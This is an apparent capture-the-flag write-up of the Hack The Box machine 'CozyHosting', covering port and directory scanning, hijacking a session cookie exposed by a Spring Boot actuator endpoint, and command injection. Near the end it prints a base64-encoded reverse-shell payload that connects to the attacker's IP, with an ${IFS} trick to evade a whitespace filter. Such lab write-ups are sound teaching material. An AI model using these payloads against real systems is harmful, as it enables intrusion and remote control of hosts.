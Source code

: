 # Box: CozyHosting
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.72.147 -v -p- -T4```

```
Nmap scan report for 10.129.72.147
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/20%OT=22%CT=1%CU=31735%PV=Y%DS=2%DC=T%G=Y%TM=653286
OS:99%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=103%GCD=2%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 1.802 days (since Wed Oct 18 19:39:32 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   240.95 ms 10.10.14.1
2   241.25 ms 10.129.72.147

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 14:54:33 2023 -- 1 IP address (1 host up) scanned in 1929.96 seconds
```
From our scan we have 2 open ports. Port 22 which runs the ssh service and port 80 which runs the http service. Our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/965c2034-34c9-4493-9664-f7678b428f40)

Lets add that to our ```/etc/hosts``` file

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/cozyhosting]
└─$ sudo nano /etc/hosts                               
[sudo] password for bl4ck4non: 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/cozyhosting]
└─$ cat /etc/hosts  
127.0.0.1       localhost
127.0.1.1       bl4ck4non-sec

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.72.147 cozyhosting.htb
```
Going back to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a574552a-6f5b-4b27-bcd5-09f9b7e6d23f)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2c604329-e04d-4066-b806-8b42dce3d168)

Checking the page source

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/36d5bc0b-1637-43a3-bebb-b84f82fecc5c)

The framework being used here is spring boot. Lets fuzz for directories using ffuf, we'll be using a wordlist specfic to spring boot

command:```ffuf -u "http://cozyhosting.htb/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt  -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/cozyhosting]
└─$ ffuf -u "http://cozyhosting.htb/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt  -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 349ms]
    * FUZZ: actuator

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 284ms]
    * FUZZ: actuator/env/home

[Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 291ms]
    * FUZZ: actuator/env

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 221ms]
    * FUZZ: actuator/env/lang

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 242ms]
    * FUZZ: actuator/env/path

[Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 337ms]
    * FUZZ: actuator/beans

[Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 284ms]
    * FUZZ: actuator/health

[Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 294ms]
    * FUZZ: actuator/mappings

[Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 279ms]
    * FUZZ: actuator/sessions

:: Progress: [784/784] :: Job [1/1] :: 138 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```
The directory ```/actuator/sessions``` has something interesting hehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8e18003f-d95d-4ef5-a3c8-ae76ad2fa450)

We got login creds

Lets login with this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/94a7b438-f650-41a1-ad35-7bdab6dd5f3d)

oops, this didn't work, since the hash was md5 I tried to crack it, well it didn't work😅.

Inspect element and check out the cookie

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/03ee80ff-fb33-4a94-a170-31c95b05a7b7)

This looks like the value we found earlier, lets replace this with what we found earlier after that we'll refresh the page

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/816b746c-dee6-4810-ab20-3a4d423effd3)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8300a92c-8134-45dd-903d-ca9a069101a6)

We are logged in

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c70b0f7e-dbf6-4d4c-a3a8-52c14647e5ee)

We'll capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/62c6e077-e779-40d8-b8dc-49ba8f2a9a4b)

Lets follow the redirection

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/aa9c08ee-7d21-4ee0-ab30-3b5d41b1cc2c)

We got a ```connection timed out``` error.

Lets look for a way to exploit this


# Exploitation

Take a look at the error again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/277b46a8-c5d5-407d-b48c-ad18303fd5f7)

We actually have a potential Command Injection vulnerability here. 

When I was trying some payloads, I found out that there is a whitespace filter

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c4c5d4aa-933d-42f8-8e58-90232ee1ad6c)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb9ff8f6-67b1-493c-871c-7d2ec057075c)

One way we can bypass this is by using ```${IFS}```, so instead of using spaces, we use that. Another thing we'll do is encode our payload in base64, we'll echo this then pipe it to the decode function

First lets base64 encode our paylaod 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/47d2ebd4-2c90-4b93-9860-2e94fd606a25)

cool cool

Now this is the final payload that will help bypass the whitespace function and also spawn a reverse shell.

Ensure you set up your netcat listener before doing this

payload:```;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjEvMTIzNCAwPiYexitx"|base64${IFS}-d|bash;```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1cb31819-7d38-4d81-b62a-cb101356e0b9)

After sending this request, check your netcat listener

























